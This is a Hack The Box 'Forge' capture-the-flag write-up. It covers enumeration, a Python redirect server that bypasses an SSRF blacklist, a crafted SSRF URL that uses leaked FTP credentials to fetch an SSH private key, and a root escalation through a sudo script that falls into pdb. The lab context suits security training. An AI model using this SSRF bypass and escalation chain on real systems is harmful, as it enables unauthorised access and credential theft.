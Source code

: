 
== Introduction ==

== Enumeration ==

=== Nmap ===

{{{class="nohighlight"
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
}}}

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

{{{class="nohighlight"
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
}}}

{{{class="nohighlight"
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
}}}

{{local:../images/forge/website/admin/only_localhost_allowed.png|Admin interface only available on localhost}}

{{local:../images/forge/website/homepage.png|Homepage for http://forge.htb}}

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

{{local:../images/forge/website/upload_from_url.png|Upload from url}}
{{local:../images/forge/website/python_requests_callback.png|python-requests version}}

- url uploads only accept http/https

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklist protocols]]

- Cant make requests to http://forge.htb or http://admin.forge.htb

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklisted urls]]

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

{{{python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
}}}

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

{{local:../images/forge/website/admin/homepage_html_via_ssrf_redirect.png|Successful ssrf attack}}

- we have found some ftp creds, yay
    - user:heightofsecurity123!

{{local:../images/forge/website/admin/announcements.png|FTP credentials and internal /upload}}

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
{{{class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
}}} 

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

{{local:../images/forge/ftp/ssh_folder.png|ftp ssh folder}}
{{local:../images/forge/ftp/id_rsa.png|ftp id_rsa}}

- we can then login as the "user" user with ssh

{{local:../images/forge/shell_as_user.png|Shell as user}}
{{local:../images/forge/user_get.png|User flag}}

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

{{local:../images/forge/linpeas/sudo_l.png|linpeas sudo -l results}}

{{{python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
}}}

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb
    - UPDATE: it actually just needs to be a non number, but 1024 "A" also works

{{local:../images/forge/shell_as_root.png|Shell as root}}
{{local:../images/forge/root_get.png|Root flag}}
